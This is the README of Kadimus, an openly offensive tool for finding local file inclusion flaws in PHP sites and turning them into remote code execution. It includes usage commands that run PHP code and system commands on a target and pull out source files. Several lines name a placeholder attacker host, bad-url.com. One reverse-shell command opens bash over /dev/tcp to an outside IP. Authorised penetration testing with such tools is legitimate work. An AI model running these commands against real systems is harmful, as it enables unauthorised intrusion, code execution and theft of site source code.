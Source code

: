  [![Rawsec's CyberSecurity Inventory](https://inventory.rawsec.ml/img/badges/Rawsec-inventoried-FF5050_flat.svg)](https://inventory.rawsec.ml/tools.html#Kadimus)
 [![GitHub stars](https://img.shields.io/github/stars/P0cL4bs/Kadimus.svg)](https://github.com/P0cL4bs/Kadimus/stargazers)
 [![GitHub license](https://img.shields.io/github/license/P0cL4bs/Kadimus.svg)](https://github.com/P0cL4bs/Kadimus/blob/master/license.txt)

# kadimus
LFI Scan &amp; Exploit Tool
--
kadimus is a tool to check for and exploit LFI vulnerabilities, with a focus on PHP systems.

Features:

- [x] Check all url parameters
- [x] /var/log/auth.log RCE
- [x] /proc/self/environ RCE
- [x] php://input RCE
- [x] data://text RCE
- [x] expect://cmd RCE
- [x] Source code disclosure
- [x] Command shell interface through HTTP request
- [x] Proxy support (socks4://, socks4a://, socks5:// ,socks5h:// and http://)
- [x] Proxy socks5 support for remote connections

## Compile:

First, make sure you have all dependencies installed in your system: `libcurl`, `libopenssl`, `libpcre` and `libssh`.

Then you can clone the repository, to get the source code:
```sh
$ git clone https://github.com/P0cL4bs/kadimus.git
$ cd kadimus
```

### And finally:

```sh
$ make
```

## Options:

```
Options:
  -h, --help                    Display this help menu

  Request:
    -B, --cookie STRING         Set custom HTTP cookie header
    -A, --user-agent STRING     User-Agent to send to server
    --connect-timeout SECONDS   Maximum time allowed for connection
    --retry NUMBER              Number of times to retry if connection fails
    --proxy STRING              Proxy to connect (syntax: protocol://hostname:port)

  Scanner:
    -u, --url STRING            URL to scan/exploit
    -o, --output FILE           File to save output results

  Explotation:
    --parameter STRING          Parameter name to inject exploit
                                (only needed by RCE data and source disclosure)

  RCE:
    -T, --technique=TECH        LFI to RCE technique to use
    -C, --code STRING           Custom PHP code to execute, with php brackets
    -c, --cmd STRING            Execute system command on vulnerable target system
    -s, --shell                 Simple command shell interface through HTTP request

    --connect STRING            IP/hostname to connect to
    -p, --port NUMBER           Port number to connect to or listen on
    -l, --listen                Bind and listen for incoming connections

    --ssh-port NUMBER           Set the SSH port to try command injection (default: 22)
    --ssh-target STRING         Set the SSH host

    RCE Available techniques

      environ                   Try to run PHP code using /proc/self/environ
      input                     Try to run PHP code using php://input
      auth                      Try to run PHP code using /var/log/auth.log
      data                      Try to run PHP code using data://text
      expect                    Try to run a command using expect://cmd

    Source Disclosure:
      -S, --source              Try to get the source file using filter://
      -f, --filename STRING     Set filename to grab source [REQUIRED]
      -O FILE                   Set output file (default: stdout)

```

## Examples:

### Scanning:
```
./kadimus -u localhost/?pg=contact -A my_user_agent
```

### Get source code of file:
```
./kadimus -u localhost/?pg=contact -S -f "index.php%00" -O local_output.php --parameter pg
```

### Execute php code:
```
./kadimus -u localhost/?pg=php://input%00 -C '<?php echo "pwned"; ?>' -T input
```

### Execute command:
```
./kadimus -t localhost/?pg=/var/log/auth.log -T auth -c 'ls -lah' --ssh-target localhost
```

### Checking for RFI:

You can also check for RFI errors -- just put the remote URL in resource/common_files.txt
and the regex to identify them, example:

```php
/* http://bad-url.com/shell.txt */
<?php echo base64_decode("c2NvcnBpb24gc2F5IGdldCBvdmVyIGhlcmU="); ?>
```

in file:
```
http://bad-url.com/shell.txt?:scorpion say get over here
```

### Reverse shell:
```
./kadimus -u localhost/?pg=contact.php -T data --parameter pg -lp 12345 -c '/bin/bash -c "bash -i >& /dev/tcp/172.17.0.1/1234 0>&1"' --retry-times 0
```

Contributing
------------
You can help with code, or by donating.
If you want to help with code, use the kernel code style as a reference.

Paypal: [![](https://www.paypalobjects.com/en_US/i/btn/btn_donate_SM.gif)](https://www.paypal.com/cgi-bin/webscr?cmd=_donations&business=RAG26EKAYHQSY&currency_code=BRL&source=url)

BTC: 1PpbrY6j1HNPF7fS2LhG9SF2wtyK98GSwq
